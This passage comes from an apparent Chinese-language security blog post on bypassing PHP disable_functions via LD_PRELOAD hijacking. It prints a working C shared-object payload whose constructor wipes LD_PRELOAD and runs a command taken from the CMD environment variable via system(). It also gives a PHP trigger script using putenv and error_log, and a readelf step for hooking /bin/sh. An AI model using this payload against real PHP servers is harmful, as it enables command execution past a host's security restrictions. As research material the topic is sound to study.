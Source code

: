 [![](https://p3.ssl.qhimg.com/t014cda38494978f52c.png)](https://p3.ssl.qhimg.com/t014cda38494978f52c.png)

因此我们考虑直接使用`__attribute__((constructor))`劫持共享对象即可，这里直接借用现有的利用`__attribute__(())`的payload:

```
#define _GNU_SOURCE
#include &lt;stdlib.h&gt;
#include &lt;stdio.h&gt;
#include &lt;string.h&gt;

extern char** environ;
__attribute__ ((__constructor__)) void preload (void)
`{`
    // get command line options and arg
    const char* cmdline = getenv("CMD");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) `{`
            if (strstr(environ[i], "LD_PRELOAD")) `{`
                    environ[i][0] = '\0';
            `}`
    `}`
    // executive command
    system(cmdline);
`}`
```

不过不明白此处为何不能直接`unsetenv("LD_PRELOAD")`,直接这样会导致死循环然后CPU飙到100%（不要问我为什么知道），所以还是通过上述的`payload`进行无劫持库函数来绕过

```
&lt;?php
system("whoami");
putenv("CMD=whoami");
putenv("LD_PRELOAD=/root/php_learn/attribute.so");
error_log('error',1);
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0140a7ccff6d41cfe4.png)

### <a class="reference-link" name="%E5%88%A9%E7%94%A8/bin/sh%20%E7%BB%93%E5%90%88putenv%E8%BF%9B%E8%A1%8CBypass"></a>利用/bin/sh 结合putenv进行Bypass

结合之前的分析，其实无论是`mail()`、`error_log`还是`imagick`在`execve`调用新的进程时，其实都出现了`/bin/sh`进程，因此可以通过劫持`/bin/sh`进程的API库函数来实现

```
readelf -Ws /usr/bin/sh  #getuid和getpid库函数都被调用
```
